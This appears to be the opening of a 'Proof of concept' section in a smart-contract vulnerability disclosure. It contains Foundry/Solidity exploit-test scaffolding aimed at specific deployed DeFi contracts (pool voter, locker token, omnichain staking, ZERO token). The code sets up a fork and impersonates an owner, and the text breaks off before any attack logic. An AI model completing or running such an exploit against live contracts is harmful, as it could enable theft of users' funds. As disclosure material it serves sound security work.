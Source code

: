         
## Proof of concept
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "./interface.sol";
/*
poolVoter 0x3818eAb6Ca8Bf427222bfACFA706c514145F4104
lockerToken 0x92b0d1Cc77b84973B7041CB9275d41F09840eaDd
omnichainStaking 0x9eb52339B52e71B1EFD5537947e75D23b3a7719B
zero 0x9f62EE65a8395824Ee0821eF2Dc4C947a23F0f25
vestedZeroNFT 0x20BBE62B175134D21b10C157498b663F048672bA
*/

IERC20 constant zero = IERC20(0x9f62EE65a8395824Ee0821eF2Dc4C947a23F0f25);
isakte constant stake = isakte(0x9eb52339B52e71B1EFD5537947e75D23b3a7719B);
PoolVoter constant poolVoter = PoolVoter(0x3818eAb6Ca8Bf427222bfACFA706c514145F4104);
iLockerToken constant lockerToken = iLockerToken(0x92b0d1Cc77b84973B7041CB9275d41F09840eaDd);

interface iLockerToken {
    function underlying() external returns (address);
    function createLock(
        uint256 _value,
        uint256 _lockDuration,
        bool _stakeNFT
    ) external returns (uint256);
    function safeTransferFrom(address,address,uint256,bytes memory) external;
}

interface isakte {
    function unstakeToken(uint256 tokenId) external;
}

interface PoolVoter {
    function pools() external returns (address[] memory);
    function owner() external returns (address);
    function length() external returns (uint256);
    function weights(address) external returns (uint256);
    function registerGauge(
        address _asset,
        address _gauge
    ) external;
    function vote(
        address[] calldata _poolVote,
        uint256[] calldata _weights
    ) external;
}


contract Main is Test {
    function setUp() public {
        vm.createSelectFork("http://127.0.0.1:8545");


    }

    function testEXP() public {

        address owner = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;
        deal(address(stake), address(owner), 1 ether);
        vm.startPrank(owner);
```